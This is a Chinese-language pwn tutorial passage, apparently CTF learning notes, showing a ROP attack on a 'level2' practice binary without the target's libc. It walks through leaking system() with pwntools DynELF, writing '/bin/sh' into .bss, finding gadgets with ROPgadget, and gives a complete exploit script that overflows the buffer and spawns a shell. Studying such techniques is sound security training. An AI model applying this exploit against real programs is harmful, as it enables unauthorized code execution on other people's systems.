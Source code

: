 

### level 2  - 在不获取目标libc.so的情况下进行ROP攻击

如果不能获取目标机器上的libc.so或者具体的linux版本号，应该怎么计算得出偏移地址（offset）？

利用DynELF模块通过内存泄露(memory leak)来搜索内存中的system()地址。需要的是一个``lead(address)``函数。由于DynELF模块只能取得system()地址，所以需要调用read()或其他函数，将``/bin/sh``写入到程序的非随机段（如.bss段）。通过``readelf -S level2``或者在IDA中快捷键``ctrl+s``获取到bss段的地址。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191109230630.png)

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191109231111.png)

因为我们在执行完read()之后要接着调用system(“/bin/sh”)，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。利用的是ROPgadget工具快速查找可用gadget，``ROPgadget --binary level2 --only "pop|ret"``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191109231537.png)

攻击思路：首先通过DynELF获取到system()地址，通过read()将“/bin/sh”写入到.bss段，通过gadget清空read()栈上参数后，调用system("/bin/sh")。

本地EXP

> 函数、gadget等地址，可能因电脑不同而不一致。请动手操作，获取本机相关地址后，自行替换

```python
#coding = utf-8
from pwn import *

elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x08048404 # 请根据实际而替换
bss_addr = 0x0804a018 # 请根据实际而替换 
pppr = 0x080484bd # 请根据实际而替换

def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

p = process('./level2')

d = DynELF(leak, elf=ELF('./level2'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) # 写入read部分
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr) # 调用system部分

print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")
p.interactive()
```
